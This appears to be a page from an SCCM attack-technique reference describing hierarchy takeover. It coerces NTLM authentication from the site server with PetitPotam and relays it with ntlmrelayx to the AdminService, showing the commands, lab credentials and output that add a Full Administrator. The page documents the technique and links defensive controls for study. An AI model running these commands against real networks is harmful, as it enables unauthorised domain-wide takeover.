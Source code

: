 # Hierarchy Takeover via NTLM Coercion and Relay from Site Server to AdminService

## Code Name
- TAKEOVER02

## ATT&CK TTPs
- [T1078.002 - Valid Accounts](https://attack.mitre.org/techniques/T1078/002/)
- [T1187 - Forced Authentication](https://attack.mitre.org/techniques/T1187/)

## Required Privilege / Context
Valid domain credentials with network connectivity to the primary site server and SMS Provider.

## Summary

The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations.  The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The site server computer account is a member of the `SMS Admins` security group on each SMS Provider in a site by default.

The SMS Provider also provides access to the site database via the administration service (adminservice) REST API and uses Microsoft Negotiate for authentication. In default configurations, the adminservice is vulnerable to NTLM relay attacks. 

## Impact

This technique may allow an attacker to relay a primary site server machine account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables lateral movement to all SCCM clients and/or sensitive systems.

## Examples
- Use SCCMHunter to profile SCCM component server roles
- Use PetitPotam to coerce authentication from primary site server
- Use NTLMrelayx to relay credentials to remote SMS Provider

### SCCMHunter
```
[02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
[02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                       +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                       | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
```

### PetitPotam

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd 10.10.100.136 sccm.internal.lab

Trying pipe lsarpc
[-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```

### NTLMRelayx

```
┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]
└─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\secter" --objectsid "S-1-5-21-2391214593-4168590120-2599633397-1133" -smb2support -t https://provider.internal.lab/AdminService/wmi/SMS_Admin
Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.121, attacking target https://provider.internal.lab
[*] Exiting standard auth flow to add SCCM admin...
[*] Authenticating against https://provider.internal.lab as LAB/SCCM$
[*] Skipping user SCCM$ since attack was already performed
[*] Server returned code 201, attack successful

```


## Defensive IDs
- [PROTECT01](../../defense-techniques/PROTECT01/protect01-description.md)
- [PROTECT10](../../defense-techniques/PROTECT10/protect10-description.md)
- [DETECT01](../../defense-techniques/DETECT01/detect01-description.md)


## References
- Garrett Foster, Site Takeover via SCCM’s AdminService API, https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf
- Microsoft, Plan for the SMS Provider, https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider
- Microsoft, What is the administration service in Configuration Manager?, https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview
